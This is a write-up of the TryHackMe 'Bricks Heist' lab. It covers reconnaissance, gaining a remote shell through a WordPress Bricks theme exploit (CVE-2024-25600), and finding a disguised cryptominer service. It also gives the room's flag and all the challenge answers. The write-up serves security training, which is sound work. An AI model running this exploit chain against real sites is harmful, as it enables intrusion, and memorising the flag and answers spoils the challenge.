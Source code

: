 
# Bricks Heist - TryHackMe Writeup

This is a writeup for the "Bricks Heist" challenge on TryHackMe, found [here](https://tryhackme.com/room/tryhack3mbricksheist). The scenario involves Brick Press Media Co. losing server access due to a compromise. My goal was to hack back in, recover a hidden file, and investigate a cryptomining operation. Below are my steps—mistakes included—along with tools, commands, and findings.

---

## Steps

### 1. Setup Hosts File
- Edited `/etc/hosts` to map `bricks.thm` to the target IP:
  ```bash
  cd /etc/
  nano hosts
  ```
- Added this line below existing entries:
  ```
  127.0.0.1   localhost
  127.0.0.1   vnc.tryhackme.tech
  127.0.1.1   tryhackme.lan   tryhackme
  10.10.14.5  bricks.thm
  ```

### 2. Initial Reconnaissance
- Scanned the target with `nmap`:
  ```bash
  nmap -A -sC -sV [VICTIM IP]
  ```
- Example:
  ```bash
  nmap -A -sC -sV 10.10.14.5
  ```
- Flags explained:
  - `-A`: Aggressive scan (OS detection, version detection, script scanning, traceroute).
  - `-sC`: Run default scripts for additional info.
  - `-sV`: Detect service versions.
- Results:
  ```
  PORT     STATE SERVICE  VERSION
  22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11
  80/tcp   open  http     WebSockify Python/3.8.10
  443/tcp  open  ssl/http Apache httpd (WordPress 6.5)
  3306/tcp open  mysql    MySQL (unauthorized)
  ```
- Noted SSH, HTTP (WebSockify and WordPress), and MySQL.

### 3. Web Enumeration
- Tried `gobuster`:
  ```bash
  gobuster dir -u http://[VICTIM IP] -w [PATH TO WORDLIST]
  ```
- Example:
  ```bash
  gobuster dir -u http://10.10.14.5 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  ```
- Flags explained:
  - `dir`: Directory enumeration mode.
  - `-u`: Target URL.
  - `-w`: Wordlist path.
- Got an error: `405 (Length: 472)` status matched non-existent URLs, halting the scan.
- **Fix**: Added `-x 405 --exclude-length 472` to ignore 405 responses and their specific content length:
  ```bash
  gobuster dir -u http://[VICTIM IP] -w [PATH TO WORDLIST] -x 405 --exclude-length 472
  ```
- Example:
  ```bash
  gobuster dir -u http://10.10.14.5 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x 405 --exclude-length 472
  ```
- Still found nothing useful.

- Moved to wpscan and scanned the WordPress site :
  ```bash
  wpscan --url https://bricks.thm
  ```
- Failed with: `SSL peer certificate or SSH remote key was not OK`.
- **Fix**: Added `--disable-tls-checks` to bypass SSL verification:
  ```bash
  wpscan --url https://bricks.thm --disable-tls-checks
  ```
- Flags explained:
  - `--url`: Target WordPress URL.
  - `--disable-tls-checks`: Ignore SSL certificate errors.
- Results:
  - WordPress version: 5.7
  - Theme: `bricks` (v1.9.5)
  - `robots.txt`: `/wp-admin/` disallowed.
  - No plugins or backups found.

### 4. Exploit WordPress Vulnerability
- Searched for "wordpress bricks 1.9.5 exploit" and found CVE-2024-25600, but the original exploit failed.
- Used my modified version from [GitHub](https://github.com/so1icitx/CVE-2024-25600):
  ```bash
  python3 exploit.py -u https://bricks.thm
  ```
- Flags explained:
  - `-u`: Target URL.
- Output:
  ```
  [*] Nonce found: 37bff0ff08
  [+] https://bricks.thm is vulnerable to CVE-2024-25600: apache
  [!] Shell ready! Type commands (exit to quit)
  ```
- Gained a shell.

### 5. Find the Hidden File
- Listed files in the web root:
  #### p.s started using ' ' because # is treated as a comment :p
  ```bash
  '# ls'
  ```
- Saw `650c844110baced87e1606453b93f22a.txt` among WordPress files.
- Read it:
  ```bash
  '# cat 650c844110baced87e1606453b93f22a.txt'
  ```
- Content: `THM{fl46_650c844110baced87e1606453b93f22a}`

### 6. Investigate Suspicious Process
- Checked running services:
  ```bash
  '# systemctl | grep running'
  ```
- Spotted `ubuntu.service` running `/lib/NetworkManager/nm-inet-dialog`, which seemed odd.
- Viewed its config:
  ```bash
  '# systemctl cat ubuntu.service'
  ```
- Output:
  ```
  [Unit]
  Description=TRYHACK3M
  [Service]
  Type=simple
  ExecStart=/lib/NetworkManager/nm-inet-dialog
  Restart=on-failure
  [Install]
  WantedBy=multi-user.target
  ```
- Suspicious process: `nm-inet-dialog`
- Service name: `ubuntu.service`

### 7. Locate Miner Log File
- Explored `/lib/NetworkManager/`:
  ```bash
  '# ls /lib/NetworkManager/'
  ```
- Found `inet.conf`.
- Checked the first 20 lines (file was large):
  ```bash
  '# head -n 20 /lib/NetworkManager/inet.conf'
  ```
- Saw mining logs with an encoded string.

### 8. Decode Miner Wallet Address
- Extracted the encoded string:
  ```
  5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d
  ```
- Used CyberChef’s “Magic” function, which detected hex encoding and decoded it to two wallet addresses:
  - `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa` (valid)
  - `bc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa` (invalid)
- Validated on [Blockchain.com Explorer](https://www.blockchain.com/explorer/).
- Wallet address: `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`

### 9. Identify Threat Group
- Checked the wallet’s first transaction on Blockchain.com, linked to `bc1q5jqgm7nvrhaw2rh2vk0dk8e4gg5g373g0vz07r`.
- Googled the address and found references to the LockBit ransomware group.
- Threat group: `LockBit`

---

## Answers to Challenge Questions
1. **Content of the hidden .txt file**: `THM{fl46_650c844110baced87e1606453b93f22a}`
2. **Name of the suspicious process**: `nm-inet-dialog`
3. **Service name affiliated with the suspicious process**: `ubuntu.service`
4. **Log file name of the miner instance**: `inet.conf`
5. **Wallet address of the miner instance**: `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`
6. **Threat group involved**: `LockBit`

---

## Tools Used
- `nmap`: Network scanning.
- `gobuster`: Directory enumeration (with fix for 405 errors).
- `wpscan`: WordPress scanning (with TLS workaround).
- `python3 exploit.py`: Custom CVE-2024-25600 exploit.
- CyberChef: Decoding hex strings.
- [Blockchain.com Explorer](https://www.blockchain.com/explorer/): Wallet analysis.

---
